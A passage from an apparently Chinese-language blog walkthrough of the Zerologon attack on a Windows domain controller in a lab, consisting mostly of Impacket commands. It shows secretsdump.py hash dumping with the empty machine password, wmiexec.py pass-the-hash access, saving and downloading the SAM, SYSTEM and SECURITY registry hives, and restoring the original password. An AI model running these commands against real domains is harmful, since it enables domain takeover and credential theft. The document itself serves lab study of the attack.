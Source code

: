 ```
Success! DC should now have the empty string as its machine password.
```



 [zerologo_impacket.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/zerologo_impacket.pcapng) 

![image-20201220154626164](/assets/img/image-20201220154626164.png)



```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ring2/ringdc-pc$@192.168.240.142
secretsdump.py -no-pass -just-dc ring2.com/ringdc-pc$@192.168.240.142

```



**清理环境**

SAM注册表里存的是用户账户HASH, SYSTEM注册表里存的是机器账户HASH, 两者都需要SECURITY注册表中的bootKey解密

```
> wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ad.test.com/Administrator@192.168.209.129
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
> reinstall_original_pw.py ringdc-pc 192.168.240.142 1ed14f438a76ab48b513b466d875734d
```
